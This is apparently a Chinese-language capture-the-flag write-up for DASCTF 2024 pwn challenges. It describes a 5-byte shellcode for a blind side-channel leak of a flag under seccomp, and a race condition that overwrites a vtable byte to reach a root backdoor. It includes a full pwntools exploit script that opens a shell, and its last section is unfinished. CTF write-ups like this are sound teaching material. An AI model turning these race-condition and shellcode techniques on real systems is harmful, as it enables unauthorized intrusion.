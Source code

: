 ```yaml
---
title: DASCTF 2024-Pub 个人部分题解
published: true
---
```


| 目录跳转: |
|--------|
| [PWN题目: sixbytes - 暂不附Exp](#pwn题目-sixbytes) |
| [PWN题目: usersys - 附Exp](#pwn题目-usersys) |
| [PWN题目: ChromeLogger(未更完)](#pwn题目-chromelogger) |


# [](#header-3)pwn题目 sixbytes

进入 main 函数，调用函数读取 flag 而后赋值给 v4，v4 即为 flag 的字符串首地址，函数笔者不再赘述. 接下来进入 sub_5555555553B8 看 v3 的生成方式

![dasctf](/image/dasctf2024/1.png)  

sub_5555555553B8:   
可以观察到，该函数使用 mmap 在 0x20240000 申请了权限为 0x7 (可读可写可执行) 的较长空间后，再读取了 6 个字节的用户输入数据到该空间内. 这里限制了用户只能输入六个字节的数据

![dasctf](/image/dasctf2024/2.png)  

最后在主函数以 v4 为参数调用该空间. 即将 PC 更改到用户输入数据的头部

![dasctf](/image/dasctf2024/3.png)  

一开始我的思路是 _perror 直接输出 flag，看了一下后发现开启了 seccomp 禁止了 syscall

![dasctf](/image/dasctf2024/4.png)  

由于没任何输入输出，只能靠盲注：

如下所示，当 [rdi + i] 的值大于 X 时则跳转，进入到死循环，否则 Segment Error. 这样就可以写个二分盲注，盲注出结果

`payload`

```x64
loop:
cmp byte ptr[rdi + i], X
jg loop
```

而正巧的是，该 payload 占长度为 5 字节，不超过 6 字节. 因此是可行的

exp 后面再放

# [](#header-3)pwn题目 usersys

首先经过探查发现，这个题只有 guest 输入用户名称的地方能够输入任意字节的用户名称，并且添加.  
因此大概率确定是由此导致的内存覆写然后造成的危害  

首先查看 guest 处理函数 FUNC_GUEST(如下图所示，该函数实际上记录在虚表中)，笔者先解释一下几个关键函数及参数的用途：
1. 参数 a1 代表当前所有登记了的 guest 统计结构体，该结构体包括当前各个 guest 名称，总的 guest 数量(下文中笔者把 a1 中的总 guest 数量简称为 guest_count )，该结构体可以大致理解为如下数据结构
    ```c
    struct type_a1{
        char guest_name[5][8];      // a1 + 0x18, guest 字符串数组，最大只能写 5 个，每个 guest 名称长度最大 8
        long guest_count;           // a1 + 0x40, guest 长度
    };
    ```
2. 红圈中的 UPDATE_FILE 函数从保存的 GUEST_DATA 中读取登记了的 guest 名称数据并更新 a1，可以简单理解为 UPDATE_FILE 更新了 a1

![dasctf](/image/dasctf2024/5.png)  

ADMIN 表和 GUEST 表都是写在结构体上的虚表，是看情况调用的. 此处距离 a1 不远，推测该题应该是写入虚表 getshell. 简单内存图请看如下所示，详细内存分布情况请查看更下面的 `a1 部分内存分布情况` 表

![dasctf](/image/dasctf2024/6.png)  

观察虚表发现 Root 用户函数地址，这是一个后门函数，如果能够覆盖 Admin 的虚表为 Root 的虚表，就可以进入到该后门

![dasctf](/image/dasctf2024/7.png)  


红色横线中 `*(__int16 *)(a1 + 64) > 4` 取出 a1 中 guest_count 并判断当前 guest_count 是否大于 4，如果大于 4，也就是当前记录的 guest 总数大于等于 5 时则不做记录(在此的寄存器取址 细节逻辑请查看 汇编代码，笔者不再赘述)

![dasctf](/image/dasctf2024/5.png)  

但是可以发现，这里在经过 `*(__int16 *)(a1 + 64) > 4` 的逻辑判断后又 UPDATE_FILE 更新了 a1 一次. 可以确定在此肯定有条件竞争导致的漏洞，当多个线程同时访问该文件并进入了 else 语句 (`wanna leave your name?[y/n]`)但还未 UPDATE_FILE 时，由于多个线程条件竞争漏洞 在合适的条件下 guest_count 肯定是能够大于等于 5 的

在第二次 UPDATE_FILE 结束后，发现 read 函数读取用户输入
```c
read(0, (void *)(8 * (*(__int16 *)(a1 + 64) + 2LL) + a1 + 8), 8uLL);
```
其作用是将用户输入数据读入到 `(void *)(8 * (*(__int16 *)(a1 + 64) + 2LL) + a1 + 8)`，那么怎么理解该读入地址呢？根据上文分析可以知道 `*(__int16 *)(a1 + 64)` 代表 guest_count，那么这串代码简述过来就是 `8 * (guest_count + 2LL) + a1 + 8`，化简后就是 `a1 + 0x18 + guest_count * 8`，由于 guest_name 中一个字符串 8 字节，整个读入地址 可以简单理解为如下形式    
`guest_name[guest_count]`  
那么 read 就可以理解为  
```c
read(0, guest_name[guest_count], 8uLL);
```

在此我先将 a1 及其前后的部分内存分布情况简单列出: 

![dasctf](/image/dasctf2024/9.png)  

<!--
<br>
<table style="border:1px solid #2bbc8a;border-collapse: collapse;" border="1">
    <tr>
        <td colspan="2">a1 部分内存分布情况</td>
    </tr>
    <tr>
        <td>a1 + 0x18</td>
        <td>guest_name[0]：第一个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x20</td>
        <td>guest_name[1]：第二个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x28</td>
        <td>guest_name[2]：第三个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x30</td>
        <td>guest_name[3]：第四个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x38</td>
        <td>guest_name[4]：第五个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x40</td>
        <td>guest_count</td>
    </tr>
    <tr>
        <td>...</td>
        <td>......</td>
    </tr>
    <tr>
        <td>a1 + 0x50</td>
        <td>Root 函数的虚表地址</td>
    </tr>
    <tr>
        <td>...</td>
        <td>......</td>
    </tr>
    <tr>
        <td>a1 + 0x70</td>
        <td>Admin 函数的虚表地址</td>
    </tr>
</table>
-->

可以发现，Admin 函数虚表地址 隔 `guest_name[0]` 的距离恰巧为 0x58 个字节也就是 11 个 8 字节，`guest_name[11]` 访问到的即是 Admin 的虚表地址，那么 `guest_name[6]` 访问到的即是 guest_count

此时，可以利用条件竞争漏洞，连接两个线程至 `wanna leave your name?[y/n]` 处，当 第一个线程 写到第五个 时，第二个线程由于已经到 `wanna leave your name?[y/n]`  处，还可以继续写第六个也就是 `guest_name[6]`，那么第二个线程就可以随意更改 guest_count 的值. 

而笔者需要修改 Admin 函数的虚表地址为 Root 的虚表地址，因此需要第三个线程的介入. 

解题流程：  

在前面已经知道 第二个线程是用来修改 guest_count 的值，那么可以将 guest_count 拓展到笔者想要修改的地址(在此为 Admin 函数虚表位置). 然后拓展第三个线程修改该位置的值(在此将 原虚表的值，修改为 Root 虚表的值)

首先连接第一个线程，当第一个线程 写到第四个 guest 时并已经进入 `wanna leave your name?[y/n]` 但未输入 `y` 时，旋即连接第二 第三个线程并都进入到 `wanna leave your name?[y/n]` 等待. 然后第一个线程再写入一个 guest 达到写满

第二个线程由于已经到 `wanna leave your name?[y/n]`  处，还可以继续写第六个，而第六个 8 字节地址正巧就是 guest_count 的值，那么第二个线程就可以写入 0xa，当该进程写入结束后 guest_count 就会变成 0xb. 

然后第三个线程此时写入的就是 `guest_name[11]`，即 Admin 虚表地址了. 只要此时写入 Root 地址的固定的最低一个字节 0x50 即可(其高地址将会 RELRO，因此只写入最后一个字节)

exp 如下所示
```py
# by leeya_bug
IP      = {你的 IP}
PORT    = {你的端口}

from pwn import * 
import time

c1 = remote(IP, PORT)

# 清空原有数据
time.sleep(0.3)
c1.sendline(b'admin')
c1.sendline(b'clear')
c1.sendline(b'logout')

# 填充四个 guest
for i in range(1, 5):
    time.sleep(0.3)
    c1.sendline(b'guest')
    c1.sendline(b'y')
    c1.sendline(b'name' + str(i).encode())

# 启动另外两个 Connection，并让三个 Connection 进入 wanna leave your name?[y/n] 等待区
if True:
    time.sleep(0.3)
    c1.sendline(b'guest')

    c2 = remote(IP, PORT)
    time.sleep(0.3)
    c2.sendline(b'guest')
    
    c3 = remote(IP, PORT)
    time.sleep(0.3)
    c3.sendline(b'guest')

# 第一个 Connection 填充第五个 guest
time.sleep(0.3)    
c1.sendline(b'y')
c1.sendline(b'name5')

# 第二个 Connection 修改 guest_count 为 0xa，后面变成 0xb
time.sleep(0.3)
c2.sendline(b'y')
c2.sendline(p64(0xa))

# 第三个 Connection 修改 Admin 虚表的最后一个字节为 50，即 Root 虚表的地址
time.sleep(0.3)
c3.sendline(b'y')
c3.send('\x50')

# 触发 admin，反弹 shell
time.sleep(0.3)
c3.sendline(b'admin')
c3.interactive()
```

运行以上 exp，连接 Shell 后，输入 `cat /flag` 命令即可获取 flag

![dasctf](/image/dasctf2024/8.png)  

# [](#header-3)pwn题目 chromelogger

### [](#header-3)任意地址写入漏洞

由于笔者这两天事很多，没有更新完，后面再更新
